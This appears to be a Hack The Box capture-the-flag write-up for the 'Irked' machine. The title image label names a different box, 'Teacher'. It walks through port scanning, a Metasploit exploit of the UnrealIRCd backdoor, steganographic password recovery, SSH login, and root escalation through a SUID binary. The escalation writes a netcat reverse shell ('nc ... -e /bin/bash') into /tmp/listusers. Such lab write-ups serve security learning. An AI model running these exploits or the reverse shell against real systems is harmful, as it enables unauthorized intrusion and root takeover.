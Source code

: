 ![HTB Teacher (10.10.10.153) Write-up](./screenshots/irked.jpeg)

## PART 1 : Initial Recon

```console
nmap --min-rate 1000 -p- -v 10.10.10.117
```
```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8000/tcp  open  http-alt
8067/tcp  open  infi-async
46040/tcp open  unknown
65534/tcp open  unknown
```
```console
nmap -oN irked.nmap -p22,80,111,6697,8000,8067,46040,65534 -sC -sV -v 10.10.10.117
```
```
PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open   http        Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open   rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          35800/tcp  status
|_  100024  1          56850/udp  status
6697/tcp  open   ircs-u?
|_irc-info: Unable to open connection
8000/tcp  closed http-alt
8067/tcp  open   infi-async?
|_irc-info: Unable to open connection
46040/tcp closed unknown
65534/tcp open   unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---

## PART 2 : Port Enumeration

1. Open http://10.10.10.117 (default: __port 80__)
   - Landing Page: 

     ![Landing Page](./screenshots/80_irked.png)

   - Page Source:
     ```html
     <img src=irked.jpg>
     <br>
     <b><center>IRC is almost working!</b></center>
     ```
   __Notes__:
   - The page seems to be pointing us to the __*IRC service*__ on __port 6697__
   - The pages also only contains an image (__*irked.jpg*__)
   - Running `gobuster` and `nikto` doesn't seem to yield interesting results.

2. Attempt exploitation of the IRC service (__port 6697__)
   - UnrealIRCD 3.2.8.1 Backdoor Command Execution ([CVE-2010-2075](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor))
     ```console
     msfconsole
     
     use exploit/unix/irc/unreal_ircd_3281_backdoor

     show options
     # Name    Current Setting  Required  Description
     # ----    ---------------  --------  -----------
     # RHOSTS                   yes       The target address range or CIDR identifier
     # RPORT   6667             yes       The target port (TCP)

     set RHOSTS 10.10.10.117
     set RPORT 6697

     run
     # [*] Started reverse TCP double handler on 10.10.15.122:4444 
     # [*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
     #     :irked.htb NOTICE AUTH :*** Looking up your hostname...
     # [*] 10.10.10.117:6697 - Sending backdoor command...
     # [*] Accepted the first client connection...
     # [*] Accepted the second client connection...
     # [*] Command: echo 4JezGWGL0WskDMqt;
     # [*] Writing to socket A
     # [*] Writing to socket B
     # [*] Reading from sockets...
     # [*] Reading from socket A
     # [*] A: "4JezGWGL0WskDMqt\r\n"
     # [*] Matching...
     # [*] B is input...
     # [*] Command shell session 1 opened (10.10.15.122:4444 -> 10.10.10.117:47923)...
     ```
   - While inside shell:
     ```console
     id
     # uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
     
     python -c 'import pty; pty.spawn("/bin/bash")'

     cat /etc/passwd | grep bash
     # root:x:0:0:root:/root:/bin/bash
     # djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash

     cd /home/djmardov
     cd Documents
     ls -lah
     # drwxr-xr-x  2 djmardov djmardov 4.0K May 15  2018 .
     # drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3 04:40 ..
     # -rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
     # -rw-------  1 djmardov djmardov   33 May 15  2018 user.txt     

     cat .backup
     ```
     ```
     Super elite steg backup pw
     UPupDOWNdownLRlrBAbaSSss
     ```
   __Notes__:
   - There exists a user named __djmardov__
   - __*user.txt*__ is readable only as __djmardov__ or as __root__
   - __*.backup*__ contains a steg password
     - Maybe it could be used on __*irked.jpg*__ from the http service

---

## PART 3 : Generate User Shell
1. Run __*irked.jpg*__ on online steg tools
   - https://futureboy.us/stegano/decinput.html
     
     ![Irked Steg](./screenshots/80_irked_steg.png)

   - Output:
     ```
     Kab6h+m+bbp2J:HG
     ```
2. Login via SSH with user __djmardov__
   ```console
   ssh -l djmardov 10.10.10.117
   # djmardov@10.10.10.117's password: Kab6h+m+bbp2J:HG
   ```
   While inside shell:
   ```console
   cat ~/Documents/user.txt
   # 4a66a78b12dc0e661a59d3f5c0267a8e
   ```

---

## PART 4 : Privilege Escalation (djmardov -> root)
1. Check for SUID files owned by root
   ```console
   find / -uid 0 -perm -4000 -type f 2>/dev/null
   # ...
   # /usr/bin/viewuser
   # ...
   ```
2. Try to run __*/usr/bin/viewuser*__
   ```
   This application is being devleoped to set and test user permissions
   It is still being actively developed
   (unknown) :0           2019-04-27 13:17 (:0)
   djmardov pts/0        2019-04-27 13:18 (10.10.15.122)
   sh: 1: /tmp/listusers: not found
   ```
   __Notes__:
   - __*viewuser*__ runs __*/tmp/listusers*__
     - The file does not yet exist in the system
     - __*/tmp/listusers*__ will be run as root no matter who owns it
3. Create payload:
   ```console
   echo "nc 10.10.15.122 4444 -e /bin/bash" > /tmp/listusers
   ```
4. Establish __root__ shell:
   1. Local terminal:
      ```console
      nc -lvp 4444
      ```
   2. __djmardov__ shell:
      ```console
      /usr/bin/viewuser
      ```
   3. netcat listener:
      ```console
      id 
      # uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
      
      find / -name root.txt
      # /root/root.txt

      cat /root/root.txt
      # 8d8e9e8be64654b6dccc3bff4522daf3
      ```
